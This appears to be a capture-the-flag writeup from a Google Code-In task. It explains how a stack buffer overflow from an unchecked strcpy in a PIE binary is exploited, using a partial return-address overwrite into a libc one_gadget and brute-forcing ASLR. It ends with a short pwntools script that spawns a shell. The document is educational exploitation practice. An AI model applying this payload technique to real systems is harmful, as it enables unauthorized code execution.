

+++
title = "GCI - Fedora Project - Exploiting a Buffer Overflow Vulnerability"
date = 2019-12-15
aliases = ["/posts/5df6fd3b0898260951d4389b-gci-fedora-project-exploiting-a-buffer-overflow-vulnerability"]
[taxonomies]
tags = ["google-code-in", "binary-exploitation", "buffer-overflow", "aslr", "rce"]
categories = ["ctf-writeups"]
+++

# Challenge

We are given a binary to exploit. By running `checksec` on it, we see that the binary has the following protections:
[show-line-numbers]: false
```Plaintext
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

Because the binary has NX, we cannot place executable shell code in a buffer and then jump to it. PIE allows the code 
section of the binary to be located anywhere in memory. This means that we don't know the address of functions within 
the binary; however, we still know relative offsets.


## Reverse Engineering

```
Dump of assembler code for function main:
   0x0000000000001145 <+0>:     push   rbp                                  # Setup Stack
   0x0000000000001146 <+1>:     mov    rbp,rsp                              
   0x0000000000001149 <+4>:     sub    rsp,0x110                            # Allocate 0x110 bytes on stack
   0x0000000000001150 <+11>:    mov    DWORD PTR [rbp-0x104],edi            # Copies edi into stack offset 0x104
   0x0000000000001156 <+17>:    mov    QWORD PTR [rbp-0x110],rsi            # Copies rsi into stack offset 0x110
   0x000000000000115d <+24>:    mov    rax,QWORD PTR [rbp-0x110]            # Copies value of pointer into rax
   0x0000000000001164 <+31>:    add    rax,0x8                              # Adds size_t
   0x0000000000001168 <+35>:    mov    rdx,QWORD PTR [rax]                  # Copies the value of the pointer [rax + 8] into rdx
   0x000000000000116b <+38>:    lea    rax,[rbp-0x100]                      # Loads the address of [rbp - 0x100] into rax
   0x0000000000001172 <+45>:    mov    rsi,rdx                              # rsi = rdx
   0x0000000000001175 <+48>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001178 <+51>:    call   0x1030 <strcpy@plt>                  # Calls strcpy(rsi, rdi) ; strcpy ([rbp - 0x100], argv[1])
   0x000000000000117d <+56>:    lea    rax,[rbp-0x100]                      # Loads address of [rbp-0x100] into rax
   0x0000000000001184 <+63>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001187 <+66>:    call   0x1040 <puts@plt>                    # puts(rdi)
   0x000000000000118c <+71>:    mov    eax,0x0                              # return 0
   0x0000000000001191 <+76>:    leave                                       
   0x0000000000001192 <+77>:    ret                                         
End of assembler dump.
```

<!-- more --> 

We can see that `argv[1]` is copied into a 0x100 byte buffer on the stack. However, there are no checks on the size of `argv[1]`. This is plainly a stack overflow vulnerability. 

## Exploit

Now that we have an understanding of what the binary does, we can construct a payload to get code execution. Since the canary is not enabled, we can overwrite the return address. However, because of PIE and ASLR, we don't have any clear targets to jump to.


### Where do we jump?

The binary is dynamically linked and uses the system libc. We can find targets within the binary, when jumped to, result in a call to `execve("/bin/sh", NULL, NULL)` and lead to "a shell".  The tool [one_gadget](https://github.com/david942j/one_gadget) finds offsets to these one gadgets within a given libc binary. Running `one_gadget libc.so.6` gives the following output:




However, we don't know the base address that libc is loaded at.


### How?

Generally, the libc runtime handles initializes itself before calling `main`. This means that when `main` returns, we end up within libc. In fact, in this [asciinema](https://asciinema.org/a/JRs1KT1HQCoDUSDAmW1r6CCcC), we see that `main` returns to `__libc_start_main` within libc. 

If we overflow the buffer, we can overwrite this address. We could overwrite the entire return pointer, but what if we only overwrote it partially? This is known as a partial overwrite. Since all functions within libc have the same base address, we can overwrite the lower bytes of the return pointer to jump to any known offset within libc.

### One small problem

When `strcpy` is called, it adds a null byte to the end of the destination buffer. If we attempt a partial overwrite, this will result `0x00` being placed within the return pointer.

To overcome this, we can bruteforce ASLR by repeatedly running the program until libc is loaded in a position that matches the overwritten return pointer. We need to bruteforce 1.5 bytes (because the one_gadget is `4f2c5`, we only need to bruteforce the upper half of `0x?4` and the null byte before it). This means that, on average, we will need to execute the program `4096` times before successfully reaching a shell.

## Full Script

{{ asciinema(id="vaUS0kLREa4r92cFJuaipXW5u") }}

```Python
from pwn import *

while True:
        try:
                r = process(['./exploitme', 'A'*264 + '\xc5\xf2\x04'])
                r.sendline('ls')
                print(r.can_recv())
                r.interactive()
        except EOFError:
                pass
```


> This is a writeup for this [Google Code-In task](https://codein.withgoogle.com/dashboard/task-instances/5481487256780800/)
